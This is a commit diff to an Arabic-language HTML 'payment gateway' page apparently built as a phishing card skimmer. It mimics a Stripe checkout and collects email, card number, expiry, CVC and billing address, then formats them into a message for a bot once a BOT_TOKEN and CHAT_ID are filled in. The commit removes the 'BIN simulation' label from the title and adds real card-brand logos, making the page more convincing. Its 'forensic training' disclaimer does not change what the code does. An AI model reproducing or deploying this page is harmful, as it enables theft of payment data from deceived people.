

Before and after one commit to gohsheiihe-art/Dhcbvhv, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 988 px of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,35 +3,60 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>بوابة دفع احترافية - محاكاة BIN</title>
+    <title>بوابة دفع احترافية</title>
     <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700&display=swap" rel="stylesheet">
     <style>
+        /* ===== إعادة تعيين كامل ===== */
         * { margin: 0; padding: 0; box-sizing: border-box; }
-        body {
+        html, body {
+            width: 100%;
+            min-height: 100vh;
             font-family: 'Inter', sans-serif;
-            background: #eef2f6;
+            background: #eef2f6; /* خلفية رمادية فاتحة */
             display: flex;
             justify-content: center;
-            align-items: center;
-            min-height: 100vh;
-            padding: 24px;
+            align-items: flex-start; /* البطاقة تلصق بأعلى الصفحة */
             direction: ltr;
         }
+
+        /* ===== الحاوية الرئيسية ===== */
         .container {
             max-width: 560px;
             width: 100%;
             background: #ffffff;
-            border-radius: 32px;
-            box-shadow: 0 25px 50px rgba(0,0,0,0.08);
-            padding: 40px 36px;
-            border: 1px solid rgba(255,255,255,0.3);
+            border-radius: 0 0 32px 32px; /* تقريب سفلي فقط */
+            padding: 30px 28px 40px;
+            margin: 0; /* إزالة أي هامش علوي */
+            box-shadow: 0 8px 30px rgba(0,0,0,0.04);
+            border-bottom: 1px solid rgba(0,0,0,0.02);
         }
-        h2 { font-size: 24px; font-weight: 700; color: #0f172a; margin-bottom: 4px; }
-        .subtitle { color: #64748b; font-size: 14px; margin-bottom: 28px; border-bottom: 1px solid #e9edf2; padding-bottom: 18px; }
 
+        /* ===== عناوين الصفحة ===== */
+        .page-title {
+            font-size: 22px;
+            font-weight: 700;
+            color: #0f172a;
+            margin-bottom: 2px;
+        }
+        .page-sub {
+            font-size: 14px;
+            color: #64748b;
+            margin-bottom: 28px;
+            border-bottom: 1px solid #eef2f6;
+            padding-bottom: 16px;
+        }
+
+        /* ===== مجموعات الحقول ===== */
         .form-group { margin-bottom: 18px; }
-        .form-group label { display: block; font-size: 13px; font-weight: 600; color: #334155; margin-bottom: 5px; }
-        .form-group input, .form-group select {
+        .form-group label {
+            display: block;
+            font-size: 13px;
+            font-weight: 600;
+            color: #334155;
+            margin-bottom: 5px;
+        }
+        .form-group input,
+        .form-group select {
             width: 100%;
             padding: 14px 16px;
             border: 1.5px solid #e2e8f0;
@@ -42,13 +67,14 @@
             transition: 0.2s;
             color: #0f172a;
         }
-        .form-group input:focus, .form-group select:focus {
+        .form-group input:focus,
+        .form-group select:focus {
             border-color: #2563eb;
             box-shadow: 0 0 0 4px rgba(37,99,235,0.06);
             background: #ffffff;
         }
 
-        /* حقل البطاقة مع الكشف اللحظي */
+        /* ===== حقل رقم البطاقة + الشعار المتغير ===== */
         .card-row {
             display: flex;
             align-items: center;
@@ -75,11 +101,15 @@
             font-family: 'Inter', monospace;
             color: #0f172a;
         }
-        .card-row input::placeholder { font-weight: 400; letter-spacing: 1px; color: #94a3b8; }
+        .card-row input::placeholder {
+            font-weight: 400;
+            letter-spacing: 1px;
+            color: #94a3b8;
+        }
 
-        /* منطقة الشعار المتغير (VISA / MasterCard) */
+        /* ===== منطقة الشعار ===== */
         .card-brand {
-            padding: 6px 14px;
+            padding: 6px 12px;
             border-radius: 40px;
             font-size: 13px;
             font-weight: 700;
@@ -89,18 +119,42 @@
             white-space: nowrap;
             min-width: 70px;
             text-align: center;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            gap: 6px;
         }
-        .card-brand.visa { background: #1a1f71; color: #ffffff; }
-        .card-brand.mastercard { background: #eb001b; color: #ffffff; }
+        .card-brand img {
+            height: 22px;
+            width: auto;
+            display: none;
+        }
+        .card-brand.visa {
+            background: #1a1f71;
+            color: #ffffff;
+        }
+        .card-brand.visa img { display: inline-block; }
+        .card-brand.mastercard {
+            background: #eb001b;
+            color: #ffffff;
+        }
+        .card-brand.mastercard img { display: inline-block; }
 
-        /* صف التواريخ و CVC */
+        /* ===== صف مزدوج ===== */
         .row-duo { display: flex; gap: 16px; }
         .row-duo .form-group { flex: 1; }
 
-        /* عنوان الفوترة */
-        .billing-title { font-size: 16px; font-weight: 700; color: #0f172a; margin: 18px 0 12px 0; border-top: 1px solid #e9edf2; padding-top: 18px; }
+        /* ===== عنوان الفوترة ===== */
+        .billing-title {
+            font-size: 16px;
+            font-weight: 700;
+            color: #0f172a;
+            margin: 20px 0 14px 0;
+            border-top: 1px solid #eef2f6;
+            padding-top: 18px;
+        }
 
-        /* زر الدفع */
+        /* ===== زر الدفع ===== */
         .pay-btn {
             width: 100%;
             background: #0f172a;
@@ -112,14 +166,24 @@
             font-weight: 700;
             cursor: pointer;
             transition: 0.2s;
-            margin: 10px 0 16px 0;
+            margin: 8px 0 18px 0;
             box-shadow: 0 8px 24px rgba(15,23,42,0.12);
         }
         .pay-btn:hover { background: #1e293b; transform: scale(1.01); }
         .pay-btn:active { transform: scale(0.98); }
 
-        .footer-links { display: flex; justify-content: center; gap: 16px; font-size: 12px; color: #94a3b8; border-top: 1px solid #e9edf2; padding-top: 18px; }
+        /* ===== التذييل ===== */
+        .footer-links {
+            display: flex;
+            justify-content: center;
+            gap: 16px;
+            font-size: 12px;
+            color: #94a3b8;
+            border-top: 1px solid #eef2f6;
+            padding-top: 18px;
+        }
 
+        /* ===== رسالة النجاح ===== */
         #successMsg {
             display: none;
             margin-top: 20px;
@@ -133,7 +197,7 @@
         }
         #successMsg.show { display: block; }
 
-        /* تحذير أثري */
+        /* ===== تحذير أثري ===== */
         .disclaimer {
             margin-top: 20px;
             padding: 12px 16px;
@@ -145,13 +209,21 @@
             text-align: center;
             line-height: 1.5;
         }
-        @media (max-width: 480px) { .container { padding: 24px 16px; } .row-duo { flex-direction: column; gap: 0; } }
+
+        /* ===== استجابة للشاشات الصغيرة ===== */
+        @media (max-width: 480px) {
+            .container { padding: 20px 16px 30px; }
+            .row-duo { flex-direction: column; gap: 0; }
+            .card-brand { min-width: 60px; font-size: 12px; }
+            .card-brand img { height: 18px; }
+        }
     </style>
 </head>
 <body>
     <div class="container">
-        <h2>💳 إتمام الدفع</h2>
-        <div class="subtitle">أدخل بيانات بطاقتك وعنوان الفوترة</div>
+        <!-- العنوان -->
+        <div class="page-title">💳 إتمام الدفع</div>
+        <div class="page-sub">أدخل بيانات بطاقتك وعنوان الفوترة</div>
 
         <form id="paymentForm">
             <!-- البريد الإلكتروني -->
@@ -160,12 +232,16 @@
                 <input type="email" id="email" placeholder="example@domain.com" required>
             </div>
 
-            <!-- رقم البطاقة + الكشف اللحظي -->
+            <!-- رقم البطاقة + كشف العلامة -->
             <div class="form-group">
                 <label>رقم البطاقة</label>
                 <div class="card-row">
                     <input type="text" id="cardNumber" placeholder="1234 5678 9012 3456" maxlength="19" required>
-                    <div class="card-brand" id="cardBrand">🔒</div>
+                    <div class="card-brand" id="cardBrand">
+                        <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/5/5e/Visa_Inc._logo.svg/2560px-Visa_Inc._logo.svg.png" alt="VISA">
+                        <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Mastercard-logo.svg/2560px-Mastercard-logo.svg.png" alt="MasterCard">
+                        <span id="brandText">🔒</span>
+                    </div>
                 </div>
             </div>
 
@@ -187,7 +263,7 @@
                 <input type="text" id="cardHolder" placeholder="John Doe" required>
             </div>
 
-            <!-- ===== قسم عنوان الفوترة (مثل بوابات الدفع الحقيقية) ===== -->
+            <!-- ===== قسم عنوان الفوترة ===== -->
             <div class="billing-title">📍 عنوان الفوترة</div>
 
             <div class="form-group">
@@ -202,7 +278,6 @@
                     <option value="UAE">🇦🇪 الإمارات</option>
                     <option value="Libya">🇱🇾 ليبيا</option>
                     <option value="Turkey">🇹🇷 تركيا</option>
-                    <!-- باقي الدول... اختصاراً للقائمة -->
                     <option value="Germany">🇩🇪 ألمانيا</option>
                     <option value="France">🇫🇷 فرنسا</option>
                     <option value="Australia">🇦🇺 أستراليا</option>
@@ -235,6 +310,7 @@
             <button type="submit" class="pay-btn">💵 إتمام الدفع الآن</button>
         </form>
 
+        <!-- تذييل -->
         <div class="footer-links">
             <span>🔒 مدعوم بتقنية Stripe</span>
             <span>|</span>
@@ -243,8 +319,10 @@
             <span>الخصوصية</span>
         </div>
 
+        <!-- رسالة نجاح -->
         <div id="successMsg">✅ تمت العملية بنجاح (تم إرسال البيانات إلى البوت في بيئة المحاكاة).</div>
 
+        <!-- تحذير أخلاقي -->
         <div class="disclaimer">
             ⚠️ هذا النموذج هو أداة تدريبية للطب الشرعي الرقمي في بيئات معزولة فقط.<br>
             استخدامه لجمع بيانات حقيقية يعد جريمة إلكترونية في جميع الأزمنة.
@@ -255,13 +333,12 @@
         (function() {
             const form = document.getElementById('paymentForm');
             const cardInput = document.getElementById('cardNumber');
-            const brandEl = document.getElementById('cardBrand');
+            const brandDiv = document.getElementById('cardBrand');
+            const brandText = document.getElementById('brandText');
             const successDiv = document.getElementById('successMsg');
 
             // ================================================================
-            // [1] نظام الكشف التلقائي عن نوع البطاقة (BIN Detection)
-            //     فيزا: تبدأ بالرقم 4
-            //     ماستر كارد: تبدأ بـ 51-55 أو 2221-2720
+            // [1] كشف نوع البطاقة (BIN Detection)
             // ================================================================
             function detectCardType(number) {
                 const cleaned = number.replace(/\s/g, '');
@@ -269,12 +346,8 @@
                 const first = cleaned.substring(0, 1);
                 const firstTwo = cleaned.substring(0, 2);
                 const firstFour = cleaned.substring(0, 4);
-
-                // فيزا
                 if (first === '4') return 'visa';
-                // ماستر كارد (النطاق التقليدي 51-55)
                 if (parseInt(firstTwo) >= 51 && parseInt(firstTwo) <= 55) return 'mastercard';
-                // ماستر كارد (النطاق الموسع 2221-2720)
                 if (firstFour >= '2221' && firstFour <= '2720') return 'mastercard';
                 return 'unknown';
             }
@@ -282,23 +355,23 @@
             function updateBrand() {
                 const raw = cardInput.value;
                 const type = detectCardType(raw);
-                // إزالة الكلاسات السابقة
-                brandEl.classList.remove('visa', 'mastercard');
+                brandDiv.classList.remove('visa', 'mastercard');
+
                 if (type === 'visa') {
-                    brandEl.textContent = '💳 VISA';
-                    brandEl.classList.add('visa');
+                    brandDiv.classList.add('visa');
+                    brandText.textContent = ' VISA';
                 } else if (type === 'mastercard') {
-                    brandEl.textContent = '💳 MasterCard';
-                    brandEl.classList.add('mastercard');
+                    brandDiv.classList.add('mastercard');
+                    brandText.textContent = ' MasterCard';
                 } else {
-                    brandEl.textContent = '🔒';
-                    brandEl.style.background = '#f1f5f9';
-                    brandEl.style.color = '#94a3b8';
+                    brandText.textContent = '🔒';
+                    brandDiv.style.background = '#f1f5f9';
+                    brandDiv.style.color = '#94a3b8';
                 }
             }
 
-            // تنسيق المدخلات (إضافة مسافات تلقائية بين الأرقام)
-            cardInput.addEventListener('input', function(e) {
+            // تنسيق المدخلات (إضافة مسافات تلقائية)
+            cardInput.addEventListener('input', function() {
                 let val = this.value.replace(/\s/g, '').replace(/\D/g, '');
                 let formatted = '';
                 for (let i = 0; i < val.length && i < 16; i++) {
@@ -319,7 +392,7 @@
             form.addEventListener('submit', function(e) {
                 e.preventDefault();
 
-                // جمع كامل البيانات
+                // جمع جميع البيانات
                 const email = document.getElementById('email').value.trim();
                 const cardNum = document.getElementById('cardNumber').value.trim();
                 const expiry = document.getElementById('expiry').value.trim();
@@ -331,7 +404,7 @@
                 const state = document.getElementById('state').value.trim();
                 const zip = document.getElementById('zip').value.trim();
 
-                // بناء رسالة تفصيلية
+                // بناء الرسالة
                 const message = `🔐 [تنبيه بوابة دفع - محاكاة BIN] 🔐\n` +
                                 `📧 البريد: ${email}\n` +
                                 `💳 البطاقة: ${cardNum}\n` +
@@ -342,12 +415,12 @@
                                 `🏠 العنوان: ${address}\n` +
                                 `🏙️ المدينة: ${city}\n` +
                                 `🗺️ المنطقة: ${state}\n` +
-                                `📮 الرقم البريدي: ${zip}\n` +
+                                `📮 الرمز البريدي: ${zip}\n` +
                                 `🕒 الطابع: ${new Date().toLocaleString()}`;
 
                 console.log('📤 [بيانات المحاكاة]:', message);
 
-                // محاولة الإرسال الفعلي (في حال تم تعيين التوكن)
+                // محاولة الإرسال الفعلي (إذا تم تعيين التوكن)
                 const isTokenSet = (BOT_TOKEN !== 'YOUR_BOT_TOKEN_HERE' && CHAT_ID !== 'YOUR_CHAT_ID_HERE');
 
                 if (isTokenSet) {
@@ -381,14 +454,11 @@
                 }
 
                 successDiv.scrollIntoView({ behavior: 'smooth', block: 'center' });
-
-                // (اختياري) إعادة تعيين النموذج بعد 3 ثوانٍ في وضع المحاكاة
-                // setTimeout(() => form.reset(), 3000);
             });
 
-            // تشغيل الكشف الأولي (إذا كانت هناك قيمة افتراضية)
+            // تحديث العلامة عند التحميل (في حال وجود قيمة افتراضية)
             updateBrand();
         })();
     </script>
 </body>
-    </html>
+</html>
```
